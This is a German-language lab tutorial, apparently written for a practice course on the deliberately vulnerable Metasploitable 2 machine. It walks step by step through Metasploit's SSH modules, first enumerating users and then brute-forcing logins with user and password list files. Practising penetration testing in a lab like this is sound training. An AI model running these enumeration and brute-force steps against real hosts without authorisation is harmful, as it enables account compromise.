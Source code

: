 # SSH

## Files erstellen

User und Passwort File erstellen:

``` bash
cd Documents
nano user.txt
cp user.txt passwort.txt
ls
```

![Bild01.jpg](/images/Metaspolitable-2/SSH/Bild01.jpg)

## Starten der Metasploit-Konsole

Wenn man einen Exploit gefunden hat, der mit Metasploit funktioniert, kann man das Metasploit-Tool verwenden, um den Exploit zu starten. Dafür muss man zuerst die Metasploit-Konsole starten:

``` bash
msfconsole
```

![Bild02.jpg](/images/Metaspolitable-2/SSH/Bild02.jpg)

## Suche nach dem Exploit in der Metasploit-Konsole

Nachdem die Konsole gestartet wurde, muss man noch nach dem Exploit suchen:

``` bash
search scanner/ssh/ssh
```

![Bild03.jpg](/images/Metaspolitable-2/SSH/Bild03.jpg)

## Auswahl des Exploits

=== "SSH-Enumusers"
    Um den Exploit auszuwählen, gibt man den folgenden Befehl ein (0 = die Nummer des Exploits in der Liste):

    ``` bash
    use 3
    ```

    ![Bild04.jpg](/images/Metaspolitable-2/SSH/Bild04.jpg)

    ## Anzeigen von Optionen

    Mit dem folgenden Befehl kann man sich die zu konfigurierenden Optionen anzeigen lassen:

    ``` bash
    show options
    ```

    ![Bild05.jpg](/images/Metaspolitable-2/SSH/Bild05.jpg)

    ## Optionen setzen

    Danach kann man mit dem folgenden Befehl die Option setzen:

    ``` bash
    set RHOSTS <IP-Adresse>
    ```

    ![Bild06.jpg](/images/Metaspolitable-2/SSH/Bild06.jpg)

    ``` bash
    set USER_FILE <Pfad zur User.txt>
    ```

    ![Bild07.jpg](/images/Metaspolitable-2/SSH/Bild07.jpg)

    ``` bash
    set CHECK_FALSE true
    ```

    ![Bild08.jpg](/images/Metaspolitable-2/SSH/Bild08.jpg)

    ## Starten des Exploits
    Zum Schluss muss man mit dem folgenden Befehl den Exploit starten:

    ``` bash
    run
    ```

    ![Bild09.jpg](/images/Metaspolitable-2/SSH/Bild09.jpg)

=== "SSH-Login"
    Um den Exploit auszuwählen, gibt man den folgenden Befehl ein (0 = die Nummer des Exploits in der Liste):

    ``` bash
    use 0
    ```

    ![Bild10.jpg](/images/Metaspolitable-2/SSH/Bild10.jpg)

    ## Anzeigen von Optionen

    Mit dem folgenden Befehl kann man sich die zu konfigurierenden Optionen anzeigen lassen:

    ``` bash
    show options
    ```

    ![Bild11.jpg](/images/Metaspolitable-2/SSH/Bild11.jpg)

    ## Optionen setzen

    Danach kann man mit dem folgenden Befehl die Option setzen:

    ```
    set PASS_FILE <Pfad zur Passwort.txt>
    ```

    ![Bild12.jpg](/images/Metaspolitable-2/SSH/Bild12.jpg)

    ```
    set USER_FILE <Pfad zur User.txt>
    ```

    ![Bild13.jpg](/images/Metaspolitable-2/SSH/Bild13.jpg)

    ```
    set RHOSTS <IP-Adresse>
    ```

    ![Bild14.jpg](/images/Metaspolitable-2/SSH/Bild14.jpg)

    ```
    set VERBOSE true
    ```

    ![Bild15.jpg](/images/Metaspolitable-2/SSH/Bild15.jpg)

    ## Starten des Exploits

    Zum Schluss muss man mit dem folgenden Befehl den Exploit starten:

    ``` bash
    run
    ```

    ![Bild16.jpg](/images/Metaspolitable-2/SSH/Bild16.jpg)